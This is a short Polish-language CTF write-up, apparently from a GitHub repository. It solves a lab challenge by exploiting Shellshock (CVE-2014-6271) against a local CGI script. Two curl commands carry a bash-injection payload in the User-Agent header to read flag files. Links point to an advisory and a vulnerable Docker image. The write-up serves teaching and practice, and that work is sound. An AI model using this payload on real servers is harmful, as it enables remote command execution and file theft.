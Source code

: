 ## Description

## Solution
Aby rozwiązać zadanie należy sprawdzić plik js, w którym ukryta jest nazwa strony. Po wejściu na nią można zobaczyć iframe, który pobiera ze skryptów wylistowane pliki przez bash. To może nakierować na:
CVE-2014-6271 (shellshock)
Aby znaleźć flagę należy wykonać kod:
```
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'grep flag /flags/flag.*.txt;'" http://localhost:8080/cgi-bin/todo
```
Ta komenda zwróci `Binary file /flags/flag.048.txt matches` mówiący w jakim pliku jest flaga.
Następnie należy wykonać:
```
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'tail -n1 flag /flags/flag.048.txt;'" http://localhost:8080/cgi-bin/todo
```

## Links
https://www.cert.pl/news/single/cve-2014-6271-shellshock-luka-powlokach-bash-sh-podobnych/
https://github.com/hmlio/vaas-cve-2014-6271
https://hub.docker.com/r/hmlio/vaas-cve-2014-6271

## Created by
Mateusz Górny